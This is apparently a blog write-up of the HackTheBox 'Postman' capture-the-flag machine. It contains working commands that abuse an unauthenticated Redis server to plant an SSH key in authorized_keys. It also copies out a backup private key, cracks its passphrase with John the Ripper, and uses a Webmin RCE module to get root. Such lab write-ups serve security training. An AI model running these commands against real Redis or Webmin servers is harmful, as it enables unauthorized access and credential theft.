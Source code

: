 ```yaml
---
title: 'HackTheBox - [CTF] Postman'
summary: "Writeup of the HackTheBox's Postman CTF."
---
```


![banner](/blog/hackthebox-ctf-postman/banner.png)

As always with a new Machine, let's enumerate open ports with nmap:

![nmap](/blog/hackthebox-ctf-postman/nmap.png)

As a result, we can see that there is a Apache webserver on port 80, but after analysing and scanning
it we know that there is nothing interesting in this place. On the other hand, there is a MiniServ 1.910
server installed on port 10000 that look interesting, let's try to open it on browser:

![ssl](/blog/hackthebox-ctf-postman/ssl.png)

It's running in SSL mode, so we have to open it with **https://**.

![webmin](/blog/hackthebox-ctf-postman/webmin.png)

We land on an authentication page, we need to have valid username and password to enter the Webmin interface page.
It does not seem possible to exploit anything here, so let's leave that for later, and find something else.

Let's start another nmap scan to try to find higher open ports:

![nmap](/blog/hackthebox-ctf-postman/nmap2.png)

Interesting, the port 6379 is open with **redis** installed there. Redis is an open source, in-memory data structure store,
used as a database, cache and message broker, for more information about redis [click here](https://redis.io/).

Let's get info about the version of redis used by the server.

![redis](/blog/hackthebox-ctf-postman/redis-info.png)

So the redis versions intalled on the server is version 4.0.9.
With a quick google search it's easy to find an exploit for this version of redis,
[here is](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html) a redis Remote Command Execution exploit which does not require authentication.

The goal of this exploit is to write our own **ssh key** inside the server directory **~/.ssh/authorized_keys**,
so we can directly access to the server with ssh.

First, we have to generate our ssh key:

```shell
ssh-keygen -t rsa -C "exploit@redis.io"
```

![ssh key](/blog/hackthebox-ctf-postman/ssh-key.png)

Now that we have the key, we have to put it inside the Redis server memory, and later to transfer it into a file,
in a way that the resulting authorized_keys file is still a valid one.

To do this, let's pad the public ssh key we generated with newlines before and after the content:

```shell
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
```

Foo.txt is just our public ssh key but with newlines. Now we can write this string inside the memory of Redis using redis-cli.

Let's start by deleting all the keys that may already exists in the Redis database:

```shell
redis-cli -h 10.10.10.160 flushall
```

Let's now write our ssh key inside the redis memory, we are telling redis to name this key 'crackit':

```shell
cat foo.txt | redis-cli -h 10.10.10.160 -x set crackit
```

Now that our key is inside the redis memory, we have to dump the memory content into the **~/.ssh/authorized_keys file**.
It can be done by first setting the database dump directory to **/var/lib/redis/.ssh**, the redis home directory being /var/lib/redis.

```shell
redis-cli -h 10.10.10.160 config set dir /var/lib/redis/.ssh
```

```shell
redis-cli -h 10.10.10.160 config get dir
```

Then by setting the database dump filename by authorized_keys.

```shell
redis-cli -h 10.10.10.160 config set dbfilename "authorized_keys"
```

And finally by saving the configuration change.

```shell
redis-cli -h 10.10.10.160 save
```

![redis cli](/blog/hackthebox-ctf-postman/redis-cli.png)

Great, we can now access the server directly by ssh as the redis user.
But before being able to connect we have to add some configuration inside our **~/.ssh/config file**,
so we will be able to connect with our ssh key to the server, without redis user password.

Add this config to **.ssh** config file:

```shell
Host 10.10.10.160
    HostName 10.10.10.160
    User redis
    IdentityFile /root/Documents/postman/id_rsa
```

Then we have to specify our private key while using the ssh command.

```shell
ssh -i id_rsa redis@10.10.10.160
```

![shell](/blog/hackthebox-ctf-postman/shell.png)

We now have an ssh access with the user redis, our next goal is to get access to a system user with higher privilege.

While searching in the various server's directories, we can find that there is a user named **Matt** by navigating
to **/home** directory. And one notices an interesting backup file in the **/opt** directory, the filename is **id_rsa.bak**.
We can guess by name that this is a backup of an ssh private key, maybe the Matt's ssh private key...

Let's transfert this file into our computer:

```shell
scp -i id_rsa redis@10.10.10.160:/opt/id_rsa.bak /root/Documents/postman
```

Then, let's use ssh2john to get the hash of this ssh key:

```shell
ssh2john id_rsa.bak > id_rsa.crack
```

And finally, let's use JohnTheRipper to crack the hash:

```shell
john --wordlist=/root/Downloads/rockyou.txt id_rsa.crack
```

![ssh crack](/blog/hackthebox-ctf-postman/ssh-crack.png)

Yeah! John find that the passphrase of the key is: **computer2008**.
So let's try to connect to server ssh with user Matt using this key.

First, we need to change the .ssh config file to match with this new key, and we have to change the **id_rsa.bak**
file permission to **600**. Then we can connect.

```shell
ssh -i id_rsa.bak Matt@10.10.10.160
```

Oh oh bad news, we can't connect to ssh with user Matt... so let's try with command su.

![matt](/blog/hackthebox-ctf-postman/matt.png)

Bingo! We own the user Matt!

Let's go back now to the Webmin authentication page that we found at the beginning, and let's try to connect with user Matt.

![webmin matt](/blog/hackthebox-ctf-postman/webmin-matt.png)

Yes we can connect with Matt credentials! A quick google search and here we go with a Remote Command Execution exploit for Webmin,
[here is](https://www.exploit-db.com/exploits/46984) the exploi page. This exploit a vulnerability in the Package Updates pages of Webmin user interface.
So let's use this metasploit module to get root!

![rooted](/blog/hackthebox-ctf-postman/rooted.png)

BINGO! Machine rooted!
